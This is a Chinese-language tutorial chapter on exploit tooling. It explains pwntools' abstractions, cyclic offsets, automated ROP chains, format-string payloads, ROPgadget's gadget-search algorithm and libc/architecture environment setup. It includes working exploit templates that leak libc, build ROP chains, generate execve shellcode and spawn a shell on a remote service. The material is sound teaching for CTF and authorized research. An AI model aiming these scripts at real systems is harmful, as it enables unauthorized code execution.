




# 二进制漏洞与利用基础（22）· 利用开发工具链：pwntools与ROPgadget

> [!abstract] TL;DR
> - **pwntools 的核心不是"一堆函数"，而是一套分层抽象**：字节打包、`tube` 连接、ELF/context 解析、ROP/shellcraft/fmtstr 自动化、gdb 联调，五层叠加把 exploit 从"手搓字节流"变成"描述意图的脚本"，`process()`/`remote()` 共用同一套收发接口是这套设计的关键收益。
> - **gadget 搜索的本质是"非对齐反汇编"**：x86/x64 变长指令集允许从任意字节偏移开始合法解码，ROPgadget 正是利用这一点，以 `ret`/`jmp`/`call` 为锚点向前回溯固定窗口（默认 10 字节）暴力枚举候选片段——这也是 x86 gadget 远比 ARM/MIPS 定长指令集丰富的根因。
> - **ROPgadget、ropper、angrop 是三条不同的算法路线**：文本模式匹配（快但会漏"同效果异写法"的隐藏 gadget）、Z3+VEX 语义约束搜索、angr 符号执行验证并做图搜索自动建链（准但慢）——工程上通常组合使用而非二选一。
> - **pwntools 的 `ROP()` 类会在直接 gadget 缺失时自动退化到已学过的技术**：找不到独立的 `pop rdx; ret` 时尝试用多个 ELF 对象联合搜索，仍不够则是 `__libc_csu_init` 通用 gadget（对应第 7 章）或手工拼接 `SigreturnFrame`（对应第 12 章）的用武之地——工具链是原理篇的自动化外壳，不是替代品。
> - **环境搭建的核心矛盾是"本地便利性"与"远程一致性"的取舍**：`pwninit`/`patchelf` 解决指定 libc/ld 的绑定，`glibc-all-in-one`/`pwnlib.libcdb`（对接 libc.rip）解决版本反查与下载，`qemu-user`+`gdb-multiarch` 解决跨架构本地复现——三者分别对应"版本对不上""不知道版本""架构不一样"三类失配。
> - **运行别人写的 exploit.py 本身是一种代码执行风险**：pwntools 脚本天然具备任意系统调用能力，CTF write-up 生态里直接执行陌生人 exp 前的审查，与"利用漏洞"同等重要，这是本章区别于纯漏洞原理篇的"元安全"视角。

## 概述与定位

前 21 章分别讲清了各类内存破坏漏洞的成因，以及从栈溢出、ROP、ret2libc、格式化字符串、堆漏洞到 SROP、JOP/COP、FSOP、one_gadget、ARM64/MIPS 差异等一整套"如何劫持控制流"的原理体系。但知道"原理上可以怎么打"和"能在 30 分钟内写出一个稳定命中的 `exploit.py` 打通本地又打通远程"之间，隔着一层纯粹的工程问题：怎么把字节序、寄存器约定、地址计算、payload 拼接这些极易出错的细节自动化掉，怎么在没有目标 libc 文件的情况下识别版本，怎么在 x86 开发机上调试一个 ARM 二进制，怎么让同一份脚本本地测试和打远程服务器时只改一行代码。

本篇是全系列的收官篇，聚焦这层"元工具"本身，不再引入新的漏洞类型，而是回答三个问题（对应种子词"脚本化利用、gadget 搜索、环境搭建"）：

1. **脚本化利用**：pwntools 用什么样的抽象把"发包收包、算地址、拼 payload、进交互 shell"这套重复劳动封装成可复用的层次？为什么这样设计，而不是让每个 exploit 都手写 socket？
2. **gadget 搜索**：ROPgadget 这类工具是怎么从一堆机器码里"凭空"找出几千条可用 gadget 的？这个算法为什么在 x86/x64 上格外有效，与 ropper、angrop 等竞品的算法路线有何本质差异？
3. **环境搭建**：libc 版本、动态链接器、CPU 架构任何一处与远程目标不一致，本地调通的利用链打到远程就会失败——这套工程问题有哪些标准化解法？

与相邻章节的关系是"消费者与供应商"：[[06.ROP入门]]、[[07.ROP进阶：ret2csu与通用gadget]]、[[05.ret2libc]]、[[12.SROP信号帧伪造]]、[[16.GOT劫持与ret2dlresolve]]、[[18.one_gadget与magic_gadget]]、[[21.ARM64与MIPS架构利用差异]] 提供了"打什么、为什么能打通"的原理，本章提供"用什么工具、按什么流程把原理落地成一次稳定的攻击"。本篇不重复 one_gadget 自身的约束求解算法（见第 18 章）、不展开 angr 符号执行的完整教程、也不逐条列举 pwndbg 的堆调试命令（这些在工具生态中属于"专项工具"，本章只在需要串联时简要带过），而是把权重放在 pwntools 与 ROPgadget 这两个题目原文点名的核心工具，以及经常被忽视但决定"打不打得通"的环境搭建工程实践上。

## 原理与机制

### pwntools 的分层设计哲学

pwntools（GitHub: `Gallopsled/pwntools`）不是一个"函数库的集合"，而是有意识地分成五个层次，每一层只对上一层暴露必要的接口：

1. **字节操作层**：`p64`/`p32`/`p16`/`p8` 与其逆操作 `u64`/`u32`，以及更通用的 `pack(value, word_size, endianness, sign)`；`flat()` 负责把多种类型（整数、字节串、列表、甚至偏移字典）拼接为一段连续字节流。
2. **连接层（tubes）**：`process()`、`remote()`、`ssh().process()`、`listen()` 统一实现同一套 `send`/`recv` 接口。
3. **二进制解析层**：`ELF()` 基于 `pyelftools` 解析符号表、GOT/PLT、段信息；`context` 承载架构、字节序、操作系统、日志级别等全局状态。
4. **自动化层**：`ROP()` 自动搜索并组装 gadget 链、`shellcraft`/`asm` 生成并汇编 shellcode、`fmtstr_payload` 计算格式化字符串 payload、`cyclic`/`cyclic_find` 定位溢出偏移、`DynELF` 在没有 libc 文件时运行时解析符号、`SigreturnFrame` 构造伪造的信号帧。
5. **调试联动层**：`gdb.attach()`/`gdb.debug()` 把上述所有对象和一次真实的 GDB 会话粘合在一起。

这种分层不是为了"炫技"，而是服务于一个明确目标：**让 exploit 脚本尽量描述"意图"而不是"字节操作"**。写 `rop.call('system', [binsh])` 比手动计算 `pop rdi; ret` 的地址再拼接参数地址，出错概率低一个数量级——这正是"脚本化利用"要解决的核心问题：漏洞利用中的大部分工作是高度模式化、极易出现"差一个字节/差一次取反"低级错误的重复劳动，工具链把这部分工作从"人工计算"转移到"程序生成"。

### tubes：把利用过程建模为"IO 流协议客户端"

不管目标是本地跑起来的进程、远程 TCP 服务、还是 SSH 跳板机上启动的进程，从攻击者视角看，本质上都是"一个可以 send/recv 字节流的端点"。pwntools 用一个统一的 `tube` 基类抽象了这一点，`process`/`remote`/`ssh_channel`/`listen` 都是它的子类，共享 `send`/`sendline`/`sendafter`/`recv`/`recvline`/`recvuntil`/`recvregex`/`interactive`/`close` 接口。这带来的直接工程收益是：**本地调试切换到打远程，理论上只需要把 `process("./vuln")` 换成 `remote("host", port)` 这一行**，payload 构造逻辑完全不用动。

这一抽象也解释了几个常见的"新手坑"：

- `recvuntil(b"marker")` 是**阻塞读取**，会一直等到出现 `marker` 或超时；如果目标程序的输出里并不包含预期的 `marker`（比如换了一版 binary 提示语变了），脚本会卡死在这里而不是报错，这是打远程超时问题里最常见的原因之一。
- tube 内部维护一个先进先出的接收缓冲区：`recvline()` 只取到第一个 `\n` 为止，剩余字节留在缓冲区供下一次 `recv` 使用；如果 payload 阶段划分和真实程序的输出节奏对不上（比如程序把两行输出合并到一次 `write()`），会出现"少读一行"或"读到了下一阶段的数据"这类顺序错位。
- `sendline()` 会自动追加 `context.newline`（默认 `\n`），但如果目标程序按 `\r\n` 或不换行的方式解析输入，需要显式用 `send()` 并手动控制结尾字节，这也是"本地行为正常、远程socat 包装后行为不一致"的常见来源。

### 打包层与 cyclic 的数学原理

`p64`/`u64` 等打包函数本身没有神秘之处，真正值得展开的是 `cyclic()`——用来自动定位栈溢出偏移量的工具。它生成的不是简单重复的 `AAAABBBBCCCC...`，而是一个 **de Bruijn 序列**：在给定字母表（默认小写字母）和子串长度 `n`（默认 4）下，构造一个序列，使得**任意长度为 n 的子串在整个序列里只出现一次**。例如 `cyclic(16)` 会生成 `b'aaaabaaacaaadaaa'`。

这个数学性质带来的直接好处是：程序崩溃时，无论在栈上、寄存器里捕获到的是序列中哪个位置的 4（或 8）字节窗口，都可以通过 `cyclic_find()` 反查出它在整个序列里的唯一偏移，从而反推出"这个位置距离缓冲区起点有多少字节"——比如 `cyclic_find(0x61616164)` 会直接给出偏移量。如果用简单重复模式（如全用 `A`），一旦捕获到的窗口正好落在重复段内部，是无法唯一确定偏移的；de Bruijn 序列的"唯一子串"性质正是为了解决这个歧义问题而设计的，这也是为什么工具选它而不是更直观的递增字符串。

### ELF 解析层：可重定位的符号数据库

`ELF()` 对象做的不只是"读取一次符号表"，它更像一个**运行时可重新定位的符号数据库**：`elf.symbols`、`elf.got`、`elf.plt`、`elf.bss()` 等属性在对象创建时按文件里记录的地址计算，但 `elf.address` 这个属性是**可写**的——一旦通过某种信息泄露拿到了 PIE 二进制或 libc 的实际加载基址，只需要执行一次 `libc.address = leaked_base`，后续所有派生属性（`libc.symbols['system']`、`libc.got[...]`）会自动按新基址重新计算，不需要对每个符号手动加偏移。这个设计选择的动机很直接：**信息泄露之后紧跟着的操作永远是"批量重定位所有符号"，把这一步内建到对象里，比要求用户在几十个符号引用处手写 `+ leaked_base` 更不容易出错**。GOT/PLT 解析的底层结构参见 [[11.ELF文件详解/17.got节]]。

### context 全局单例：为什么不显式传参

`context.arch`/`context.bits`/`context.endian`/`context.os`/`context.log_level` 影响几乎每一个 pwntools 函数的行为（`asm()` 编译到哪种架构、`p64` 用大端还是小端、`process()` 是否套 QEMU）。如果让每个函数都显式接收这些参数，API 会变得极其啰嗦。pwntools 选择把它们做成**线程本地的全局单例**（`pwnlib.context.ContextType`），设置一次，全局生效。这是"少量魔法换取大量简洁"的权衡，但也带来一个真实的陷阱：多线程 exploit（例如做条件竞争类 PoC 时并发发送多个 payload）如果需要不同线程使用不同架构或不同日志级别，必须用 `with context.local(arch='arm'): ...` 这种上下文管理器显式隔离，否则全局状态会在线程间互相污染。

### gadget 存在性的根本原因：非对齐反汇编

ROP 之所以在 x86/x64 上极其易得，本质原因是**变长指令集允许从任意字节偏移开始得到一段合法可解码的指令流**。x86 指令长度从 1 字节到 15 字节不等，操作码前缀、ModRM、SIB、立即数的组合方式极其灵活，这意味着即便是"预期之外"的字节偏移，往往也能被反汇编成一段语义完全不同、但同样合法的指令序列，并且大概率能在后续几字节内遇到一个 `0xc3`（`ret`）。这正是 gadget 搜索算法的立足点——**不是在"程序员写的指令"里找，而是在"字节流的所有可能切法"里找**。ARM（尤其是 ARM64/AArch64）使用定长 4 字节指令，指令边界固定，可切分的起点数量骤减，gadget 密度天然低得多；MIPS 还叠加了延迟槽（delay slot）的额外约束。这一架构差异与利用手法的进一步展开见 [[21.ARM64与MIPS架构利用差异]]，本章只在"gadget 从哪来"这一点上做原理性说明。



## 核心命令与算法详解

### pwntools API 分层速查

```python
from pwn import *

# ── 上下文与连接 ────────────────────────────────────────
context.arch, context.os, context.log_level = 'amd64', 'linux', 'debug'
p = process("./vuln")                     # 本地进程
p = remote("pwn.example.com", 9001)       # 远程 TCP
p = process(["./vuln"], aslr=False)       # 本地关闭 ASLR，便于反复调试

# ── 收发与偏移定位 ───────────────────────────────────────
p.sendlineafter(b"> ", cyclic(200))       # 用 de Bruijn 序列探测溢出点
# 崩溃后取 $rsp/$pc 处的值代入：
offset = cyclic_find(0x6161616161616161)  # 8 字节窗口对应 64 位场景

# ── ELF/libc 与自动重定位 ─────────────────────────────────
elf  = ELF("./vuln")
libc = ELF("./libc.so.6")
leaked = u64(p.recvline().strip().ljust(8, b"\x00"))
libc.address = leaked - libc.symbols['puts']   # 一次赋值，全部符号自动重定位

# ── ROP 自动组链（含跨对象搜索与 ret2csu 回退） ─────────────
rop = ROP([elf, libc])
rop.call('write', [1, elf.got['write'], 8])    # 泄露阶段
rop.call('main')
# 若目标寄存器缺少独立 pop gadget，ROP() 会尝试 __libc_csu_init
# 通用 gadget 组合完成传参，原理见 07 章 ret2csu
chain = rop.chain()

# ── shellcraft / asm：生成并汇编 shellcode ─────────────────
sc = asm(shellcraft.amd64.linux.sh())          # execve("/bin/sh", ...)

# ── fmtstr_payload：格式化字符串自动 payload ────────────────
payload = fmtstr_payload(7, {elf.got['exit']: elf.symbols['win']},
                          write_size='short', strategy='small')

# ── SigreturnFrame：手工构造 sigreturn 帧（SROP 兜底） ───────
frame = SigreturnFrame()
frame.rax, frame.rdi, frame.rsi, frame.rdx = constants.SYS_execve, binsh, 0, 0
frame.rip = syscall_gadget
payload = bytes(frame)

# ── DynELF：没有 libc 文件时运行时解析符号 ──────────────────
def leak(addr):
    p.sendlineafter(b"> ", p64(addr))
    return p.recv(8)
d = DynELF(leak, elf=ELF("./vuln"))
system_addr = d.lookup('system', 'libc')

# ── args：命令行开关，避免手写 if len(sys.argv) 判断 ─────────
# 运行：python3 exploit.py REMOTE GDB=1
if args.REMOTE:
    p = remote("pwn.example.com", 9001)
if args.GDB:
    gdb.attach(p, "b *0x401234\nc")
```

### ROP 自动组链的图搜索本质

`ROP.call(target, args)` 要解决的问题是：给定目标函数按 System V AMD64 调用规约（参数顺序 `rdi, rsi, rdx, rcx, r8, r9`，详见 [[22.调用规约/06.SystemV_AMD64调用规约]]）需要的寄存器状态，在已知的 gadget 集合里找到一条指令序列，执行完之后这些寄存器恰好被设为期望值，并且最终把控制流交给目标函数。这本质上是一个**图搜索问题**：每个 gadget 是一条边，边的"效果"是对寄存器/栈的一次变换，目标是找到一条从"当前栈顶"到"目标寄存器状态"的路径。pwntools 的实现策略是优先寻找单一 `pop reg; ret` 这类"效果单一、互不干扰"的 gadget 逐个填充寄存器；当某个寄存器（典型的是 `rdx`/`rcx` 这类不常被独立 `pop` 的寄存器）找不到干净的 gadget 时，会尝试在传入的多个 ELF 对象（`ROP([elf, libc])`）中联合搜索，仍然找不到就是"gadget 匮乏"场景——这正是第 7 章 `__libc_csu_init` 通用 gadget、第 12 章 SROP 手工构造 `SigreturnFrame` 派上用场的地方：**工具的自动化边界，恰好就是原理篇要手工兜底的边界**。

### fmtstr_payload 的排序算法

`%n` 系列格式化字符串写入的核心限制是：`printf` 内部有一个"已打印字符计数器"，每个 `%n`/`%hn`/`%hhn` 写入的值就是**触发那次写入时计数器的当前值**，而计数器只能靠不断打印字符单调递增，不能减少。如果多次写入的目标字节值本身不是升序排列，朴素实现要么让计数器"绕回"（写入值加 0x100 或 0x10000），要么插入大量填充字符把 payload 撑到不可用的长度。`fmtstr_payload(offset, writes, write_size, strategy)` 的核心算法就是：把每个 `(地址, 目标值)` 拆分成若干 1~2 字节的小写入单元，按目标字节值**从小到大重新排序**，每一步只需要填充"当前值与上一步的差"这么多字符，从而把总填充量降到接近理论最小值；`strategy='small'` 优化的是"payload 长度最短"，与之相对的策略会优化"写入请求次数最少"（对输出长度不敏感、但请求次数受限的场景更合适）。这一算法把原本需要手工试算、极易出现进位错误的过程完全自动化，具体的漏洞原理见 [[09.格式化字符串漏洞]]。

### ROPgadget 的搜索算法与命令详解

ROPgadget（GitHub: `JonathanSalwan/ROPgadget`）的核心流程可以概括为四步：



关键参数与用法：

```bash
ROPgadget --binary ./vuln --rop                     # 列出所有 ROP gadget
ROPgadget --binary ./vuln --depth 15                 # 加大回溯窗口，找更长的复合 gadget
ROPgadget --binary ./vuln --only "pop|ret"           # 只保留指定助记符的 gadget
ROPgadget --binary ./vuln --badbytes "000a0d"        # 过滤含坏字节（NULL/换行/回车）的候选地址
ROPgadget --binary ./libc.so.6 --string "/bin/sh"    # 搜字符串常量地址
ROPgadget --binary ./vuln --opcode "5f5e5dc3"        # 按原始机器码搜索
ROPgadget --binary ./vuln --console                  # 进入交互式控制台，边搜边试拼链
```

`--depth` 默认是 10（字节），这是"能找到多长的复合 gadget"与"搜索时间/候选数量"之间的直接权衡：深度越大，越可能找到诸如 `add rsp, 0x28; pop rbx; pop rbp; ret` 这类复合效果 gadget，但候选集合会膨胀、噪声（大量无实际价值的重复片段）也会显著增加，这也是实战中"明明二进制不小，ROPgadget 却找不到需要的 gadget"时第一个该调的参数。

### 三条算法路线的横向对比

| 工具 | 核心算法 | 优点 | 局限 |
| --- | --- | --- | --- |
| ROPgadget | 反汇编回溯 + 文本/正则模式匹配 | 速度快、依赖少、跨架构支持广 | 只匹配"看起来像"的助记符文本，会漏掉指令写法不同但效果等价的"隐藏 gadget" |
| ropper（Sascha Schirra，GitHub: `sashs/Ropper`） | Capstone 反汇编 + 基于 Z3 与 VEX IR 的语义约束搜索（`semantic` 命令） | 可以用 `eax==ebx; ecx==1 !edx` 这类**约束**而非精确指令文本去查询，还能排除会破坏指定寄存器（clobber）的候选 | 语义搜索比纯文本匹配慢，复杂约束下仍可能求解超时 |
| angrop（angr 项目，GitHub: `angr/angrop`） | 对每条候选 gadget 做符号执行以精确刻画其真实效果，再用约束求解+图搜索自动拼接完整链 | 不依赖指令文本模式，能发现效果等价但写法各异的 gadget；`rop.set_regs(...)` 可以自动生成人类需要数小时手拼的复杂链；架构无关设计覆盖 x86/x64/ARM/AArch64/MIPS/RISC-V，甚至可用于内核态利用链构造 | 符号执行开销大，二进制越大越慢；后继研究项目 ropbot 在链构造效率上做了进一步优化 |

一个直观的对比案例：`mov rdi, [rsp+8]; add rsp, 0x10; ret` 和 `pop rax; pop rdi; ret` 在效果上都能把 `rdi` 设为调用者放在栈上的某个值，但前者的助记符文本完全不含 `pop`，如果只用正则 `--only "pop"` 搜索会直接错过它；angrop 这类基于符号执行的工具因为验证的是"执行后 rdi 寄存器的值确实来自栈上某偏移"这个语义事实，天然能覆盖到这类写法各异的等价 gadget。工程上三者常常组合使用：先用 ROPgadget/ropper 做快速人工侦察，链条复杂或常规 gadget 明显不足时再上 angrop 做自动化兜底。



## 工具视角与实战

### 环境搭建：解决三类"对不上"

远程利用失败中相当一部分并非 payload 逻辑错误，而是本地开发环境与远程目标环境存在偏差。这类偏差可以归纳为三类，对应三套工具组合：

**版本对不上（有 libc/ld 文件，但本地系统的动态链接器不认）**：`patchelf --set-interpreter ./ld-2.31.so --set-rpath . ./vuln` 手动指定解释器和运行时库搜索路径；`pwninit`（io12，Rust 编写）把这一过程自动化——它自动识别目录里的可执行文件、libc、ld，按需从发行版归档拉取匹配的解释器，对 libc 做"unstrip"补回调试符号，运行 `patchelf` 生成一份 `_patched` 二进制，并直接生成带好 pwntools 骨架的 `solve.py`。

**不知道版本（只有内存里泄露出的一个函数地址）**：低 12 位（页内偏移，不受 ASLR 干扰）比对法是标准手段。`glibc-all-in-one`（matrix1001）在本地维护大量发行版 glibc 版本及调试符号，支持按泄露地址反查版本、按 Build ID 识别、直接下载指定版本；pwntools 自身的 `pwnlib.libcdb` 模块内建了对 libc.rip 在线服务的查询封装，`search_by_symbol_offsets({'puts': leaked_offset})` 或 `search_by_build_id(hex_id)` 可以在脚本内直接完成识别与下载，不必额外克隆数据库仓库。Build ID 存放在 ELF 的 `.note.gnu.build-id` 段里，如果目标存在任意文件读原语，读这个段甚至不需要触发任何地址泄露就能精确定位 libc 版本。

**架构不一样（本机 x86_64，目标是 ARM/MIPS）**：`qemu-arm -g 1234 -L /usr/arm-linux-gnueabihf ./vuln_arm` 起一个带 GDB stub 的用户态模拟执行，另一端 `gdb-multiarch -ex 'target remote :1234'` 连接调试；pwntools 层面只需要设置 `context.arch = 'arm'`，并且可以把 `qemu-arm ... ./vuln_arm` 整个包装进 `process([...])` 的参数列表，这样同一份利用脚本既能驱动本地 QEMU 模拟，也能在把 `process()` 换成 `remote()` 后直接打真实目标板卡——tubes 抽象在跨架构场景下再次体现出价值。跨架构下寄存器传参与返回地址位置的具体差异见 [[21.ARM64与MIPS架构利用差异]]。



除了版本匹配，本地用 `socat TCP-LISTEN:9999,reuseaddr,fork EXEC:./vuln` 把目标包装成一个真正的网络服务再用 `remote("127.0.0.1", 9999)` 连接，也是常被忽视的一步——某些问题（缓冲区行为、部分读写、交互式 TTY 与纯 socket 的差异）只有在真正经过 socket 这条路径时才会暴露，仅用 `process()` 直接跑本地二进制是测不出来的。GDB 增强插件（pwndbg/gef/peda，三选一）和 `angr` 符号执行属于这条工具链上的专项工具，前者提供堆可视化等调试增强、与 [[24.内存管理与堆分配器/17.堆利用手法体系House_of系列]] 的实战调试强相关，后者用于输入格式逆向和触发路径求解，二者不是本章展开重点，仅在需要时接入同一个 pwntools 脚本驱动的整体流程。

### 一个现代写法的 exploit 骨架

```python
#!/usr/bin/env python3
from pwn import *

context.arch, context.os = 'amd64', 'linux'
context.log_level = 'debug' if args.DEBUG else 'info'

elf  = ELF(args.BIN or "./vuln", checksec=False)
libc = ELF(args.LIBC or "./libc.so.6", checksec=False)

p = remote(args.HOST or "pwn.example.com", int(args.PORT or 9001)) if args.REMOTE \
    else process(elf.path)

if args.GDB:
    gdb.attach(p, gdbscript="b *{}\nc".format(hex(elf.symbols['vuln'])))

OFFSET = 72  # 提前用 cyclic(200) + cyclic_find() 得到

# 第一阶段：leak，优先走常规 ROP，gadget 不足时手动切换到 SigreturnFrame 分支
rop = ROP([elf, libc])
rop.call('puts', [elf.got['puts']])
rop.call('main')
p.sendlineafter(b"> ", b"A" * OFFSET + rop.chain())

leak = u64(p.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.symbols['puts']
log.success(f"libc base @ {hex(libc.address)}")

# 第二阶段：getshell
rop2 = ROP([elf, libc])
rop2.call('system', [next(libc.search(b"/bin/sh\x00"))])
p.sendlineafter(b"> ", b"A" * OFFSET + rop2.chain())

p.interactive()
```

`args.REMOTE`/`args.GDB`/`args.DEBUG` 这类写法依赖 pwntools 对命令行参数的自动解析（`python3 exploit.py REMOTE GDB=1`），比手写 `if len(sys.argv) > 1` 更规范，也是 `pwn template` 命令生成的骨架代码里默认采用的写法。pwntools 还提供一整套 `pwn` 命令行子工具，把库里的常用能力暴露成不写 Python 就能直接用的一次性命令：`pwn cyclic 200`、`pwn cyclic -l 0x61616164`、`pwn shellcraft -f asm amd64.linux.sh`、`pwn checksec ./vuln`、`pwn disasm 5f5e5dc3`、`pwn libcdb lookup puts:420`、`pwn template > exploit.py`——这些命令本质上是同一套底层实现的另一种入口，日常调试中往往比打开 Python 交互器更快。

### 踩坑对照表

| 现象 | 根因 | 排查方向 |
| --- | --- | --- |
| 本地打通，远程 100% 失败 | libc/ld 版本与远程不一致，符号偏移全部对不上 | `pwnlib.libcdb`/`glibc-all-in-one` 重新识别版本，`pwninit` 重新绑定 |
| Windows/WSL 下 `process()` 直接抛异常或行为异常 | pwntools 依赖 `fork`/`ptrace` 等 POSIX 语义，原生 Windows 不提供 | 使用 WSL2 或 Linux 容器/虚拟机运行 exploit，不在原生 Windows 解释器下跑 |
| `gdb.attach()` 在容器里无法附加 | 容器默认禁用 `ptrace`（缺少 `CAP_SYS_PTRACE`） | 启动容器时加 `--cap-add=SYS_PTRACE --security-opt seccomp=unconfined` |
| ROPgadget 明明二进制不小却搜不到需要的 gadget | 默认回溯深度（10 字节）过浅，或目标 gadget 含坏字节被间接排除 | 加大 `--depth`，检查 `--badbytes` 设置是否误伤 |
| 旧的 `solve.py` 换新环境后跑不起来 | 全局安装的 pwntools 大版本升级，废弃了旧 API | 用 venv/pipx 按题目锁定 pwntools 版本，不共用全局环境 |
| `sendline` 发送后程序看似无响应 | 发送内容含未过滤的坏字节（如 `\x00`/`\n`）被目标提前截断 | 生成 ROP 链/shellcode 时显式检查坏字节，必要时用 `--badbytes` 预过滤候选 gadget |

## 安全性与正确使用

> [!caution] 合规声明
> 本章介绍的 pwntools、ROPgadget、ropper、angrop、pwninit、glibc-all-in-one 等均为开源的通用安全研究工具，本身不针对任何特定系统，用途完全取决于使用者。**本文所有代码示例仅适用于自建靶机、CTF 竞赛平台（如 CTFd、picoCTF、XCTF 等官方题目）与已取得书面授权的安全研究/渗透测试环境**，全部以理解与防御为目的呈现，不构成、也不应被用于对任何真实生产系统或他人系统的攻击步骤。将本章内容用于未经授权的系统测试或攻击属于违法行为，需自行承担法律责任。

### 防御视角：工具反过来暴露了什么

把 ROPgadget/checksec 这类工具当成**自检手段**而非纯粹的攻击工具，是安全开发流程中常被低估的一环：在 CI 流水线里对每次发布的二进制跑一遍 `ROPgadget --binary --rop | wc -l` 统计可用 gadget 数量，配合 `checksec` 检查 RELRO/Canary/NX/PIE 状态，可以把"这次改动是否显著放大了 ROP 攻击面"变成一个可回归的量化指标，而不是等到被打穿才发现。这与现代防护机制直接相关：启用 Intel CET（`-fcf-protection=full`）后，间接跳转/调用类 gadget 必须以 `endbr64` 开头才被硬件允许作为跳转目标，大量原本可用的 `jmp reg`/`call reg` 结尾 gadget 因此失效；Full RELRO 让 GOT 变为只读，直接抹掉了以 GOT 覆写为目标的一整类利用路径。工具能找到多少 gadget、能不能覆写 GOT，本质上是在实测这些防护机制是否真的生效，完整的防护机制清单见 [[34.现代二进制防护机制/00.现代二进制防护机制总览]]。

